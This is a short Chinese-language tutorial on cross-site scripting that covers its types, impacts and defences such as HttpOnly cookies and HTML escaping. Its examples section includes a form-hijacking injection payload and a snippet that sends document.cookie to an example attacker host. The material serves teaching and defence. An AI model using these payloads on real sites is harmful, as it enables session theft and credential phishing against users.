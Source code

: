 #### 基本概念
XSS：跨站脚本攻击，英文名称是Cross Site Script，XSS攻击，通常指黑客在存有安全漏洞的网站注入非法的 html 标签或者 javascript 代码，从而在用户浏览网页时，浏览器运行攻击代码，达到控制用户浏览器目的的一种攻击。举个例子：某个黑客发表了一篇文章其中包含了恶意的JS代码，所有访问这篇文章的人都会执行这段JS代码，这样就完成XSS攻击。
> XSS属于因输出值转义不完全引发的安全漏洞

#### 影响
1. 利用虚假输入表单骗取用户信息
2. 利用脚本窃取cookie，从而帮助攻击者发送恶意请求
3. 显示伪造的文章图片

#### 类型
DOM xss
反射型 xss
存储型 xss


#### 实现
例如：典型的表单圈套
```html
<div>
    <img src='...gif' alt='拍卖会'>
</div>
<form action='http://example.jp/login' method='get' id='login'>
<div>
  ID<input type='text' name='ID' value='"><script>var+f=document.getElementById('login');+f.action='目标网址';+f.method='get';<script><span+s="'/>
</div>
```

再如：
```javascript
var content=escape(document.cookie)//编码成字符串，现在用encodeURI 代替
document.write('<img src=http://hackr.jp/?');
document.write('content');
document.write('>');
```

#### 防御
1. HttpOnly：严格地说，HttpOnly并非为了对抗XSS——HttpOnly解决的是XSS后的Cookie劫持攻击。HttpOnly现在已经基本支持各种浏览器，但是HttpOnly只是有助于缓解XSS攻击，但仍然需要其他能够解决XSS漏洞的方案。
```
  // koa
  ctx.cookies.set(name, value, {
      httpOnly: true // 默认为 true
  })
```  
2. 输入检查，一般是用于对于输入格式的检查，例如：邮箱，电话号码，用户名，密码……等，按照规定的格式输入。
3. HtmlEncode:如果不需要用户输入 HTML，可以直接对用户的输入进行 HTML 转义
> 当用户输入<script>window.location.href=”http://www.baidu.com”;</script>, 最终保存结果为 &lt;script&gt;window.location.href=&quot;http://www.baidu.com&quot;&lt;/script&gt;, 在展现时，浏览器会对这些字符转换成文本内容，而不是一段可以执行的代码。

4.当用户需要输入 HTML 代码时：
> 当我们需要用户输入 HTML 的时候，需要对用户输入的内容做更加小心细致的处理。仅仅粗暴地去掉 script 标签是没有用的，任何一个合法 HTML 标签都可以添加 onclick 一类的事件属性来执行 JavaScript。更好的方法可能是，将用户的输入使用 HTML 解析库进行解析，获取其中的数据。然后根据用户原有的标签属性，重新构建 HTML 元素树。构建的过程中，所有的标签、属性都只从白名单中拿取。
5. JavaScriptEncode:对下列字符加上反斜杠:",',\,\n,\r

